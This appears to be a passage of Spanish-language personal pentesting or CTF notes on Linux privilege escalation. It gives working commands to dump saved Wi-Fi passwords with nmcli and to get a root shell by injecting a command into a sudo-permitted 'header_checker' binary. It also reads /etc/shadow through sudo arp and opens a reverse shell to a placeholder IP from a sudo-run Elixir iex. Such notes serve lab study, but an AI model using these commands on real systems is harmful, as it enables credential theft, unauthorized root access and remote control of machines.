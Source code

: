 /etc/NetworkManager/system-connections/MikroTik_AP

veo permisos:

ls -l /etc/NetworkManager/system-connections/MikroTik_AP


ver contraseñas:

/usr/sbin/sudo -u root nmcli -s -g 802-11-wireless-security.psk connection show "MikroTik_AP"

74.- 	/home/shrek/header_checker

(ALL) NOPASSWD: /home/shrek/header_checker

sudo -u root /home/shrek/header_checker --help

Usage: /home/shrek/header_checker --url '<url>' [--timeout <timeout>] [--method <method>] [--headers <custom_headers>]

Flags:
  --url '<url>'             The URL to fetch headers from (required)
  --timeout <timeout>     The maximum time (in seconds) to wait for a response (optional, default: 10)
  --method <method>       The HTTP method to use (optional, default: GET)
  --headers <headers>     Custom headers to send with the request (optional)
  --help                  Display this help message
Example: ./header_checker --url "google.com"

sudo -u root /home/shrek/header_checker --url ";chmod 4755 /bin/bash"

/bin/bash -pi

75.- 	/usr/sbin/arp

me permite ver archivos

(root) NOPASSWD: /usr/sbin/arp

ejecutando:

LFILE=file_to_read
sudo arp -v -f "$LFILE"

ejemplo

LFILE=/etc/shadow
sudo arp -v -f "$LFILE"

me sale el archivo pero con error:

arp: cannot set entry on line 49 of etherfile /path/to/file !

solo hay que ordenar y quitar la linea de arriba para poder leer

76.- 	/usr/bin/iex

sudo /usr/bin/iex

dentro de elixir:

System.cmd("bash", ["-c", "bash -i >& /dev/tcp/TU_IP/PORT 0>&1"])
